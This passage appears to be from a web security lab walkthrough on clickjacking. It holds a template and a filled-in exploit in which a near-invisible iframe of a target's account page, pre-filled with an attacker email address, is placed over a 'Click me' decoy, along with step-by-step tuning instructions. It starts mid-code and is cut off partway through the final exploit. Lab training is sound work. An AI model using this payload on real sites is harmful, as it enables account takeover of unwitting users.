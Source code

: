         left:$side_value;
        z-index: 1;
    }
&lt;/style&gt;
&lt;div&gt;Test me&lt;/div&gt;
&lt;iframe src="$url?email=hacker@attacker-website.com"&gt;&lt;/iframe&gt;</code>
                    </li>
                    <li>
                        Make the following adjustments to the template:
                        <ul>
                            <li>
                                Replace $url with the URL of the target website's user account page, which contains the "Update email" form.
                            </li>
                            <li>
                                Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
                            </li>
                            <li>
                                Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 400px and 80px respectively).
                            </li>
                            <li>
                                Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
                            </li>
                        </ul>
                    </li>
                    <li>
                        Click <strong>Store</strong> and then <strong>View exploit</strong>.
                    </li>
                    <li>
                        Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
                    </li>
                    <li>
                        Once you have the div element lined up correctly, change "Test me" to "Click me" and click <strong>Store</strong>.
                    </li>
                    <li>
                        Now click on <strong>Deliver exploit to victim</strong> and the lab should be solved.
                    </li>
                </ol>
            </div>
        </div>

exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:425px;
        left:80px;
        z-index: 1;
```